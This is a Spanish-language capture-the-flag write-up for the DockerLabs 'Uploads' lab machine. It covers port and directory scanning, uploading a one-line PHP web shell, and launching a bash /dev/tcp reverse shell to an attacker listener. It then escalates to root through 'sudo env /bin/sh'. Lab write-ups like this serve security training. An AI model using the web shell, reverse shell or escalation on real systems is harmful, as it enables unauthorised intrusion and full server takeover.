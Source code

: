 #Uploads DockerLabs
#web - https://dockerlabs.es/#/

Primero hacemos un escaneo de puertos basico hacia la ip que por defecto es la *172.17.0.2*.

```shell
└─$ nmap -sV -sC -n -p- --min-rate 5000 172.17.0.2
===============================================================
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 00:09 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00013s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)

```

Vemos que hay un puerto 80 abierto y entramos desde firefox.


Entramos y vemos una pagina web con un apartado para subir archivos.

![Captura de pantalla 2024-05-13 001149](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/289a79e0-f7c1-4cf6-808f-946ab1c4059f)

Realizamos un escaneo de subdominios con gobuster para ver si encontramos algo interesante.

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)

[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]

```

Encontramos un subdominio *http://172.17.0.2/uploads/*.
Entramos y podemos ver que es donde se alojan los archivos subidos.

![Captura de pantalla 2024-05-13 002043](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/418a59e7-daa7-4819-b895-376a3286d882)

Creamos un script en formato ".php" con el siguiente contenido

```shell
<?php
	system($_GET['cmd']);
?>
```

Lo subimos y llamamos al archivo con un "?cmd=id" quedando de esta manera:

![Captura de pantalla 2024-05-13 204619](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/7b55fd0a-62eb-4f95-bdbc-cc921362b579)

```shell
http://172.17.0.2/uploads/cmd.php?cmd=id
```

Entramos a "https://www.revshells.com/" en esta web encontramos reverse shells ya generadas y listas para copiar y para cambiar los parametros de una manera sencilla

![Captura de pantalla 2024-05-13 204754](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/0a20f8dd-895e-4ead-8ab9-b8e171bc2423)
![Captura de pantalla 2024-05-13 204807](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/28ff216f-eaf8-4fe3-95ac-4520704adc72)


Ejecutamos netcat con el puento 9001 como puerto de escucha
```shell
nc -lvnp 9001
listening on [any] 9001 ...

```

Ejecutamos la reverse shell de manera en que llamemos al archivo "cmd.php" y le pasasemos los parametros anteriores "?cmd=id" y ahora sustituimos id por bash -c seguido de dos comillas y la reverse shell:
```shell
http://172.17.0.2/uploads/cmd.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.0.2.15/9001 0>%261" )

```

![Captura de pantalla 2024-05-13 210138](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/853d7ccc-3224-4c5d-8495-0247a5960d9d)

Ahora solo faltaria la escalada de privilegios
Comprobamos los permisos del usuario con:
```shell
sudo -l
```

![Captura de pantalla 2024-05-13 210530](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/449ea752-5a93-4e67-a77e-d306b1111214)

En este caso podemos ver que podemos ejecutar el binario "/usr/bin/env" siendo este usuario root como se puede apreciar y indica que no tiene contraseña entonces prodecedemos a ejecutar este binario:
```shell
sudo env /bin/sh
```

![Captura de pantalla 2024-05-13 210851](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/6006d2f9-c5bf-44da-b6a8-e916850a9d0e)

y ahora realizamos un whoami para saber que usuario somos:
```shell
whoami
```
y podremos comprobar que si que somos el usuario root.
